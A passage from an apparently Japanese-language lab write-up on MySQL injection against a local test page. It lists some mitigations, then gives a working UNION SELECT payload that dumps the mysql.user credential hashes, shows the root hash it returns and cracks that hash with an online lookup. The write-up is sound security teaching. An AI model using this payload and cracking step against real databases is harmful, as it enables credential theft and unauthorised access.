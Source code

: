 - 複文実行を禁止するオプションを有効化するか、sqliなどを使用する
- MySQLプロセスの権限を必要最小限に絞る
- secure-file-privオプションを有効化してファイル書き込みを禁止する


## mysql.user - Crack Credentials

### 手順

#### Step 1: パスワードハッシュを取得する

```
http://localhost:8888/mysql.php?user=&pass=' UNION SELECT NULL, user, authentication_string FROM mysql.user;--+
```

> result:
>
> id=, username=root, password=*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
> id=, username=mysql.session, password=*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
> id=, username=mysql.sys, password=*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
> id=, username=mysql, password=*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19


#### Step 2: パスワードを復元する

https://crackstation.net/

|Hash|Type|Result|
| - | - | - |
|2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19|MySQL4.1+|password|


